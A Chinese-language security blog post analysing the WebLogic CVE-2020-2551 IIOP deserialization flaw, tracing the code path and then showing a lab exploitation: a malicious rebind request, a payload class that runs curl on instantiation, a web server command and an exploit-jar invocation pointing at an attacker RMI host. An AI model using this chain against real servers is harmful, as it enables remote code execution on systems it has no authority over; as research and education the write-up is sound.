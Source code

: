 ```yaml
---
title: "Weblogic CVE-2020-2551 IIOP协议反序列化RCE"
date: 2020-02-28T13:23:36+08:00
draft: false
tags:
- Weblogic
- RCE
- 反序列化
- Java
series:
- Weblogic
categories:
- 代码审计
---
```


IIOP协议导致的反序列化。
<!--more-->
## 环境
weblogic10.3.6+jdk1.6
idea+jdk1.8+jdk1.6

## IIOP
IIOP，Internet Inter-ORB Protocol(互联网内部对象请求代理协议)，它是一个用于CORBA 2.0及兼容平台上的协议；用来在CORBA对象请求代理之间交流的协议。Java中使得程序可以和其他语言的CORBA实现互操作性的协议。

RMI-IIOP出现以前，只有RMI和CORBA两种选择来进行分布式程序设计，二者之间不能协作。RMI-IIOP综合了RMI 和CORBA的优点，克服了他们的缺点，使得程序员能更方便的编写分布式程序设计，实现分布式计算。RMI-IIOP综合了RMI的简单性和CORBA的多语言性兼容性，RMI-IIOP克服了RMI只能用于Java的缺点和CORBA的复杂性。

在Weblogic中，默认启用了IIOP，而IIOP的传输也是通过序列化和反序列化的形式来进行的。在Weblogic中RMI-IIOP模型可以借用奇安信观星实验室的一张图来说明

![image](https://y4er.com/img/uploads/20200228171035.png)

## IIOP样例
先来看一个简单的RMI-IIOP样例，具体代码可以看 https://github.com/longofo/rmi-jndi-ldap-jrmp-jmx-jms

```java
package com.longofo.example;

import javax.naming.Context;
import javax.naming.InitialContext;
import javax.naming.NamingException;
import java.util.Hashtable;

public class HelloServer {
    public final static String JNDI_FACTORY = "com.sun.jndi.cosnaming.CNCtxFactory";

    public static void main(String[] args) {
        try {
            System.setProperty("java.rmi.server.codebase", "http://127.0.0.1:8000/");
            //实例化Hello servant
            HelloImpl helloRef = new HelloImpl();

            //使用JNDI在命名服务中发布引用
            InitialContext initialContext = getInitialContext("iiop://127.0.0.1:1050");
            initialContext.rebind("HelloService", helloRef);

            System.out.println("Hello Server Ready...");

            Thread.currentThread().join();
        } catch (Exception ex) {
            ex.printStackTrace();
        }
    }

    private static InitialContext getInitialContext(String url) throws NamingException {
        Hashtable env = new Hashtable();
        env.put(Context.INITIAL_CONTEXT_FACTORY, JNDI_FACTORY);
        env.put(Context.PROVIDER_URL, url);
        return new InitialContext(env);
    }
}
```
Server端通过InitialContext拿到上下文，然后注册一个HelloService对应helloRef引用，而HelloImpl又实现了HelloInterface接口，其中有一个sayHello方法并且继承java.rmi.Remote抛出java.rmi.RemoteException，这部分其实和RMI是大同小异的，在我的其他文章中介绍过了RMI，这里不再赘述。

## 漏洞分析
现在我们来看这个漏洞。IIOP传输的过程中会自动序列化和反序列化，那么我们可以通过向服务器7001端口发送一个恶意的序列化对象，IIOP达到RCE。

发送恶意序列化对象的过程，其实就是bind的过程，由此我们可以构造请求
```java
Hashtable<String, String> env = new Hashtable<String, String>();
// add wlsserver/server/lib/weblogic.jar to classpath,else will error.
env.put("java.naming.factory.initial", "weblogic.jndi.WLInitialContextFactory");
env.put("java.naming.provider.url", rhost);
Context context = new InitialContext(env);
// get Object to Deserialize
JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
jtaTransactionManager.setUserTransactionName(rmiurl);

Remote remote = createMemoitizedProxy(createMap("pwned"+System.nanoTime(), jtaTransactionManager), Remote.class);
context.rebind("Y4er"+System.nanoTime(), remote);
```
你肯定疑惑JtaTransactionManager和weblogic.jndi.WLInitialContextFactory是从哪来的？

1. JtaTransactionManager是spring爆出的一个可以JDNI注入的类，在weblogic中也存在。
2. weblogic.jndi.WLInitialContextFactory 是weblogic的JDNI工厂类。

国际惯例，跟一下流程，IIOP解析数据流的部分看不懂不跟了，从IIOP开始反序列化对象开始

E:/source/java/Weblogic/src/main/resources/lib/modules/weblogic.jar!/weblogic/iiop/IIOPInputStream.class:1725
![image](https://y4er.com/img/uploads/20200228174070.png)

此时var2是序列化传入的`com.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`，跟进readValue()
![image](https://y4er.com/img/uploads/20200228172827.png)

跟进readValueData()，判断是否有readObject方法之后进入自身的readObject()，也就是`om.bea.core.repackaged.springframework.transaction.jta.JtaTransactionManager`的readObject

![image](https://y4er.com/img/uploads/20200228175633.png)

然后通过反射调用JtaTransactionManager的readObject()，跟进
![image](https://y4er.com/img/uploads/20200228176407.png)

到此之后就是Weblogic的CVE-2018-3191 spring JDNI注入了，简单来说就是lookup()的参数可控，导致可以加载任意类。我们继续跟进initUserTransactionAndTransactionManager()
![image](https://y4er.com/img/uploads/20200228172797.png)

如果userTransaction等于空有userTransactionName属性则进入lookupUserTransaction()，跟进
![image](https://y4er.com/img/uploads/20200228171163.png)

此时lookup()参数可控
![image](https://y4er.com/img/uploads/20200228170996.png)

lookup加载我们的RMI服务，可以注入恶意ip的rmi服务，触发实例化恶意类构造方法调用。如果不明白请参考文末的《Spring framework 反序列化的漏洞》以及《weblogic之CVE-2018-3191漏洞分析》。

## 漏洞利用
Github：https://github.com/Y4er/CVE-2020-2551

下载jar包，然后使用marshalsec起一个恶意的RMI服务，本地编译一个exp.java
```java
package payload;

import java.io.IOException;

public class exp {

    public exp() {
        String cmd = "curl http://172.16.1.1/success";
        try {
            Runtime.getRuntime().exec(cmd).getInputStream();
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
}
```
**尽量使用和weblogic相同的版本编译** 然后本地起一个web服务器

```
python -m http.server --bind 0.0.0.0 80
```
命令行运行jar包
```
java -jar weblogic_CVE_2020_2551.jar 172.16.1.128 7001 rmi://172.16.1.1:1099/exp
```
实际效果如图
![image](https://y4er.com/img/uploads/20200228174168.gif)

## 参考链接
1. https://paper.seebug.org/1130
2. https://seaii-blog.com/index.php/2019/12/29/92.html
3. https://www.anquanke.com/post/id/197605
4. https://www.cnblogs.com/afanti/p/10256843.html
5. https://www.cnblogs.com/afanti/p/10193169.html
6. https://github.com/Y4er/CVE-2020-2551
7. https://github.com/longofo/rmi-jndi-ldap-jrmp-jmx-jms
8. https://paper.seebug.org/1105/
9. https://paper.seebug.org/1091/

**文笔垃圾，措辞轻浮，内容浅显，操作生疏。不足之处欢迎大师傅们指点和纠正，感激不尽。**